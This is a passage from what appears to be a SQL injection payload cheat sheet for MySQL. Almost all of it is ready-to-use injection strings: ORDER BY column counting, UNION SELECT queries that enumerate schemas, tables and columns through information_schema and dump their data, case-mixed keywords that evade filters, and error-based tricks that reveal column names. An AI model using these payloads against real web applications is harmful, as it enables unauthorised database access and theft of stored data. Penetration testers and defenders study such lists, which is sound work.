```sql
order by 1
order by 2
order by 3
...
order by XXX
```

Then the following codes will extract the databases'name, tables'name, columns'name.

```sql
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,schema_name,0x7c)+fRoM+information_schema.schemata
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,table_name,0x7C)+fRoM+information_schema.tables+wHeRe+table_schema=...
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,column_name,0x7C)+fRoM+information_schema.columns+wHeRe+table_name=...
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,data,0x7C)+fRoM+...
```

### Extract columns name without information_schema

Method for `MySQL >= 4.1`.

First extract the column number with 
```sql
?id=(1)and(SELECT * from db.users)=(1)
-- Operand should contain 4 column(s)
```

Then extract the column name.
```sql
?id=1 and (1,2,3,4) = (SELECT * from db.users UNION SELECT 1,2,3,4 LIMIT 1)
--Column 'id' cannot be null
```

Method for `MySQL 5`

```sql
-1 UNION SELECT * FROM (SELECT * FROM users JOIN users b)a
--#1060 - Duplicate column name 'id'

-1 UNION SELECT * FROM (SELECT * FROM users JOIN users b USING(id))a
-- #1060 - Duplicate column name 'name'

-1 UNION SELECT * FROM (SELECT * FROM users JOIN users b USING(id,name))a
...
```

### Extract data without columns name 

Extracting data from the 4th column without knowing its name.

```sql
select `4` from (select 1,2,3,4,5,6 union select * from users)dbname;
```

Injection example inside the query `select author_id,title from posts where author_id=[INJECT_HERE]`
